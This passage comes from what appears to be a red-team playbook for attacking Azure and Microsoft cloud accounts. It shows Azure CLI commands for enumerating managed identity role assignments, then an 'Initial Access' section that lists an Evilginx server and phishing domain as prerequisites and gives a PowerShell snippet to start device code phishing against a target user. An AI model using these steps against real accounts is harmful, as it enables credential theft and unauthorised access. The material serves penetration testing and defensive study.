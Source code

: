2. Check assignments
   ```powershell
   # Azure CLI
   az role assignment list --assignee <identity-id>
   # Expected Output: Role assignment details
   ```

3. Verify permissions
   ```powershell
   # Azure CLI
   az role assignment list --assignee <identity-id> --query "[].roleDefinitionName"
   # Expected Output: Permission details
   ```

**Success Indicators**:
- Retrieved managed identity information
- Accessed assigned resources
- Modified permissions
- Exploited access

**Troubleshooting**:
- If identity not found, verify name
- If access denied, check permissions
- If assignment missing, verify configuration
- If permission invalid, check roles

## 2. Initial Access

### Phishing & Social Engineering
**Scenario**: You've identified a target user and need to gain initial access through phishing.

**Enumeration Path**:
1. Identified valid users
2. Discovered MFA usage
3. Found potential phishing targets
4. Determined best phishing method

**Prerequisites**:
- Valid target user
- Evilginx server
- Domain for phishing
- SSL certificate

**Steps**:
1. Device code phishing
   ```powershell
   # PowerShell
   $body=@{
       "client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
       "resource" =  "https://graph.microsoft.com"
   }
   $authResponse=(Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body)
   $authResponse
   # Expected Output: Device code and user code
   ```
